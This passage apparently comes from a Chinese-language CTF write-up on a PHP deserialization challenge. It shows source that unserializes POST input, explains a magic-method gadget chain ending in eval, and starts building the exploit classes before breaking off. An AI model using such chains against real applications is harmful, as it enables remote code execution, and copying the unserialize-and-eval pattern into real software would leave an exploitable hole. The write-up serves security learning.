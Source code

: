 ```php
        echo 'Shark says:' . $this->word;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
    {
        echo $this->sea->see;
    }
}

if ($_POST['nature']) {
    $nature = unserialize($_POST['nature']);
}
```
:::

反序列化，链子入口：Nature的destruct方法，echo $this->sea->see;打印nature类的sea的see变量，很明显没有sea这个变量，所以触发Sea类的get方法，在get方法里调用了$sea_ani()方法，可以触发Share类的invoke方法，invoke方法里的echo触发Sink方法的toString方法，toString方法里的eval触发Sink类的cmd变量

构造：
::: details
```php
<?php

class Sink
{
    # 先修改为public
    public $cmd = 'echo 123;';
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    # 先修改为public
    public $word = 'Hello, World!';
    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
```